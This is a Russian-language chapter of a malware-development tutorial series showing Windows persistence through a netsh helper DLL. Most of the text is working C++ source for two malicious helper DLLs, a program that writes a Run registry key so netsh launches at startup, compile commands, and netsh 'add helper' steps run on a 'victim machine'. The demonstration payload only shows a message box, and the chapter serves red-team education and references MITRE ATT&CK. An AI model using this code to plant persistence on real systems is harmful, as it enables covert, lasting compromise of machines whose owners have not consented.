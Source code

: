 \newpage
\subsection{72. Разработка вредоносного ПО: закрепление (persistence) - часть 6. Windows netsh helper DLL. Простой пример на C++.}

![pers](./images/56/2022-05-29_15-24_1.png){width="80%"}    

Этот раздел является продолжением серии статей о техниках и трюках о закреплении вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования ещё одного метода закрепление в системе Windows: Netsh Helper DLL.    

### netsh

**Netsh** - это утилита Windows, которую администраторы могут использовать для настройки встроенного брандмауэра Windows и выполнения задач по конфигурации сети. Функциональность Netsh можно расширять с помощью DLL-файлов.

Эта возможность позволяет красным командам загружать произвольные DLL-файлы для выполнения кода и, следовательно, обеспечения закрепления с использованием этого инструмента. Однако для реализации данной техники требуются права локального администратора.

### практический пример

Рассмотрим практический пример. Сначала создадим вредоносную DLL:

```cpp
/*
evil.cpp
простая DLL для netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем её:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![pers](./images/56/2022-05-29_15-12.png){width="80%"}    

Затем передаём DLL на целевую машину жертвы.

Netsh взаимодействует с другими компонентами операционной системы через файлы динамических библиотек (DLL). Каждая вспомогательная DLL netsh предлагает полный набор функций. Функциональность Netsh можно расширить, используя DLL:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](./images/56/2022-05-29_15-20.png){width="80%"}    

Затем можно использовать команду `add helper`, чтобы зарегистрировать DLL в утилите `netsh`:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil.dll
```

![pers](./images/56/2022-05-29_15-23.png){width="80%"}    

![pers](./images/56/2022-05-29_15-24.png){width="80%"}    

Всё работает идеально!

Однако `netsh` по умолчанию не запускается автоматически. Для обеспечения закрепления на хосте можно создать ключ реестра, который выполнит приложение при запуске Windows. Это можно сделать с помощью следующего скрипта:

```cpp
/*
pers.cpp
windows persistence via netsh helper DLL
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // netsh
  const char* netsh = "C:\\Windows\\SysWOW64\\netsh";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 
    0, REG_SZ, (unsigned char*)netsh, strlen(netsh));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, этот скрипт похож на тот, что я использовал в своем посте о [закреплении через ключи реестра Run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html).

Проверяем ключи реестра Run:

```powershell
reg query \
"HKLM\Software\Microsoft\Windows\CurrentVersion\Run" \
 /s
```

![pers](./images/56/2022-05-29_15-18.png){width="80%"}    

Компилируем скрипт:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/56/2022-05-29_15-14.png){width="80%"}    

Запускаем на машине жертвы:      

```powershell
.\pers.exe
```

![pers](./images/56/2022-05-29_15-21.png){width="80%"}    

Когда команда `add helper` выполняется для загрузки DLL, создаётся следующий ключ реестра:     

![pers](./images/56/2022-05-29_15-25.png){width="80%"}    

Однако есть одна оговорка. Логика PoC требует обновления, чтобы создать новый поток, позволяя netsh продолжать работу, пока выполняется вредоносный код. Однако, когда netsh завершается, прекращается и выполнение вредоносного кода.

Давайте попробуем это исправить. Создадим новую DLL (`evil2.cpp`):

```cpp
/*
evil2.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

DWORD WINAPI Meow(LPVOID lpParameter) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 1;
}

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  HANDLE hl = CreateThread(NULL, 0, Meow, NULL, 0, NULL);
  CloseHandle(hl);
  return 0;
}
```

Компилируем:

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.cpp -fpermissive
```

![pers](./images/56/2022-05-29_16-21.png){width="80%"}    

Повторяем шаги снова:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil2.dll
```

![pers](./images/56/2022-05-29_16-23.png){width="80%"}    

Как видите, всё работает, `netsh` остаётся доступным. Проверим ключ реестра для проверки:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](./images/56/2022-05-29_16-23_1.png){width="80%"}    

Так как этот метод основан на эксплуатации системных функций, его сложно предотвратить с помощью стандартных защитных механизмов.

[netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)    
[MITRE ATT&CK: Netsh Helper DLL](https://attack.mitre.org/techniques/T1546/007/)    
[исходный код на github](https://github.com/cocomelonc/2022-05-29-malware-pers-6)    
